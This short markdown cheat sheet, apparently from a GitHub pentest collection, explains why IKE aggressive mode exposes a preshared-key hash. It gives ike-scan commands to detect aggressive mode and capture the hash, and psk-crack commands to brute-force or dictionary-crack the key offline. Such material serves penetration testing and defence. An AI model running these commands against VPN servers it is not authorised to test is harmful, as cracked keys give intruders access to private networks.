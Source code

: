 # Exploiting IKE Aggressive Mode

In IKE aggressive mode the authentication hash based on a preshared key (PSK) is transmitted as response to the initial packet of a vpn client that wants to establish an IPSec Tunnel (`Hash_R`). This hash is not encrypted (in main mode the hash *is* encrypted)

The `ike-scan` tool can be used to test if an IPSEC VPN server is using IKE in aggressive mode:

```bash
sudo ike-scan -A $IP_ADDRESS
```

If aggressive mode is in use, then `ike-scan` can be used to save the initial exchange for offline cracking:

```bash
sudo ike-scan -A $IP_ADDRESS --id=$ID -P$KEY_FILE
```

`psk-crack` can then be used to (attempt) to crack the resulting `$KEY_FILE`.

```bash
# Attempt to brute-force all keys up to $KEY_LENGTH using
# characters from $CHARSET (by default $CHARSET is numbers and
# lowercase ASCII characters).
#
psk-crack --charset="$CHARSET" -b $KEY_LENGTH $KEY_FILE

# Attempt to crack the PSK using a dictionary.
#
psk-crack -d $WORDLIST_FILE $KEY_FILE
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
